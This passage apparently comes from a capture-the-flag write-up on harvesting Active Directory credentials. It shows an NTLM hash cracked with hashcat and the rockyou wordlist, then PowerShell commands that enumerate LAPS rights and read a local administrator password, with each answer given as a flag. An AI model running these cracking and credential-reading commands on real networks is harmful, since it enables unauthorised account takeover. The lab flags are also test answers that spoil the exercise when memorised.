 ```
bk-admin:1120:aad3b435b51404eeaad3b435b51404ee:077cccc23f8ab7031726a3b70c694a49:
```

Hash :
```
077cccc23f8ab7031726a3b70c694a49
```

Use hashcat or John for this process 

```
user@machine$ hashcat -m 1000 -a 0 /path/to/ntlm_hashes.txt /path/to/wordlist/rockyou.txt
```

Output 

```
Flag : Passw0rd123
```


---
##### Local Administrator Password Solution (LAPS)

* Which group has ExtendedRightHolder and is able to read the LAPS password?

```
Import-Module ActiveDirectory  
(Get-ADComputer $env:COMPUTERNAME -Properties *).DistinguishedName  
Find-AdmPwdExtendedRights -Identity "OU=THMorg,DC=thm,DC=red"
```

Output:

```
Flag : LAPsReader 
```

* Follow the technique discussed in this task to get the LAPS password. What is the LAPs Password for **Creds-Harvestin** computer?

```
Get-AdmPwdPassword CREDS-HARVESTIN
```

Output :

```
THMLAPSPassw0rd 
```

* Which user is able to read LAPS passwords?

```
Get-ADGroupMember -Identity “LAPsReader”
```

Output :
```
bk-admin
```
